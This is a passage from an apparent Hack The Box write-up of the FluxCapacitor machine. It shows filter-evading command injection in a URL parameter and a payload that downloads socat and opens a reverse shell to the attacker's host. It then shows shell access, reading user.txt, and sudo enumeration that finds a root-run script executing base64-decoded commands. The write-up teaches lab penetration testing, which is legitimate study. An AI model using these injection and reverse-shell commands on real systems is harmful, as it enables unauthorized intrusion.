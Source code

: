 Using forward slashes didn't work particularly well with longer commands, so we are going to make the payload that we want the `index.html` of our `python SimpleHTTPServer` so that when we curl the page the command we want is what we see like so:

```bash
root@dastinia:~/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? c\u\rl 10.10.14.27:9999 '"
wget -q http://10.10.14.27:9999/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.27:8282
bash: -c: option requires an argument
```

```bash
root@dastinia:~/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? c\u\rl 10.10.14.27:9999 -o /tmp/a'"
bash: -c: option requires an argument
root@dastinia:~/htb/fluxcapacitor# curl "http://10.10.10.69/sync?opt='? b\a\s\h /tmp/a '"
```

```bash
root@dastinia:~/htb/fluxcapacitor# socat file:`tty`,raw,echo=0 tcp-listen:8282
nobody@fluxcapacitor:/$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@fluxcapacitor:/$
```

```bash
nobody@fluxcapacitor:/home/FluxCapacitorInc$ ls -la
total 12
drwxr-xr-x 2 nobody root 4096 Dec  5 14:58 .
drwxr-xr-x 4 root   root 4096 Dec  5 14:58 ..
-rw-r--r-- 1 root   root   33 Dec  5 14:58 user.txt
nobody@fluxcapacitor:/home/FluxCapacitorInc$ cat user.txt
[redacted]
```

### Privesc & Getting Root
One of the first things I always do whenever I get on a box is running a `sudo -l` to see what sudo commands the current user can run. For a good set of boxes running this first can potentially save you a whole lot of time while privescing...

```bash
nobody@fluxcapacitor:/home/FluxCapacitorInc$ sudo -l
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
``` 

So in this case it looks like that we can run whatever `/home/themiddle/.monit` is as the `root` user. So this very likely is our path for privesc. Lets see what this file contains...

```bash
nobody@fluxcapacitor:/home/FluxCapacitorInc$ cd /home/themiddle/
nobody@fluxcapacitor:/home/themiddle$ cat .monit
#!/bin/bash

if [ "$1" == "cmd" ]; then
        echo "Trying to execute ${2}"
        CMD=$(echo -n ${2} | base64 -d)
        bash -c "$CMD"
fi
```
